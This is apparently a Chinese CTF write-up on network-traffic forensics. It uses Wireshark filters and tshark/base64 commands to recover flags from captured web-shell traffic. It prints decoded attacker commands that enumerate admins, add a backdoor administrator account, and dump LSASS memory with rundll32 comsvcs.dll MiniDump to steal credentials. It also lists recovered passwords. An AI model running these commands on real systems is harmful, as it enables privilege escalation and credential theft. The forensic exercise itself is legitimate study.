

找到登陆目录,根据`length`逐条排查,发现`id`最后的一条就是我们要的数据

> http.request.method == POST and ip.src==192.168.94.59 and http.request.uri == "/admin/login.php?rec=login"

> **flag{admin!@#pass123}**

## 二,黑客发现的关键字符串 flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}



根据`IP`搜索回显的`flag`值

> http.response.code\==200 and ip.dst==192.168.94.59		flag

> **flag{87b7cb79481f317bde90c116cf36084b}**

## 三,黑客找到的数据库密码 flag{xxxxxxxxxxxxxxxx}



搜索`database`

> http.response.code\==200 and ip.dst==192.168.94.59		database

> **flag{e667jUPvJjXHvEUv}**

# 流量特征分析-蚂蚁爱上树

`tshark -r mayishangshu.pcapng -Y 'http.request.method==POST' -Tjson > test.json`

`(for i in $(cat test.json |grep -v 'luaV9zZXQ'|grep -v '@base64'|grep -P '(?<="urlencoded-form.value": "..)[^"]*(?=")' -o);echo $i|base64 -d &&echo ) > text.txt`

## 一,管理员Admin账号的密码是什么？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net group "domain admins" /domain&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators admin /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'Admin'

> **flag{Password1}**

## 二,LSASS.exe的程序进程ID是多少？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'exe' 

> **flag{852}**

## 三,用户WIN101的密码是什么?

> **flag{admin#123}**


